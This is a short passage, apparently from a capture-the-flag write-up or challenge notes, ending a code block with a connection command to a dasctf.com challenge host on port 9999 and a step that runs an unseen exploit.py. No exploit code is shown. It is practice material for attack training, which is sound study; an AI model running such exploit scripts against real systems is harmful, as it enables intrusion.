  --ssl-servername 02f0745979590371e64e1a57.tcp-ctf2.dasctf.com \
  02f0745979590371e64e1a57.tcp-ctf2.dasctf.com 9999

# Run the exploit
python3 exploit.py
```

---

